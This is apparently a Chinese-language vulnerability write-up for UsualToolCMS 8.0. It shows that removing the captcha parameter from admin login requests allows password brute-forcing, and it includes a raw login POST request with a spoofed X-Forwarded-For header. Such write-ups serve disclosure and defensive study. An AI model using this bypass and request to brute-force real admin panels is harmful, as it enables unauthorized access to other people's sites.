 UsualToolcms 8.0 绕过后台验证码爆破
===================================

一、漏洞简介
------------

可通过删除验证码参数，进行暴力破解

二、漏洞影响
------------

UsualToolCMS-8.0-Release

三、复现过程
------------

漏洞点:<http://0-sec.org/cmsadmin/>

后台登陆时默认需要输入验证码，但是当我把验证码的参数ucode删除时，登陆依然成功

### 1.默认情况下登陆数据包

![](resource/UsualToolcms8.0绕过后台验证码爆破/media/rId26.png)

![](resource/UsualToolcms8.0绕过后台验证码爆破/media/rId27.png)

删除ucode参数和cookie后登陆，直接登陆成功

![](resource/UsualToolcms8.0绕过后台验证码爆破/media/rId28.png)

通过burp爆破后台密码

![](resource/UsualToolcms8.0绕过后台验证码爆破/media/rId29.png)

![](resource/UsualToolcms8.0绕过后台验证码爆破/media/rId30.png)

    POST /UsualToolCMS/cmsadmin/a_login.php?do=login HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    DNT: 1
    Referer: http://192.168.235.242/UsualToolCMS/cmsadmin/a_login.php
    X-Forwarded-For: 8.8.8.8
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 23

    uuser=admin&upass=admi
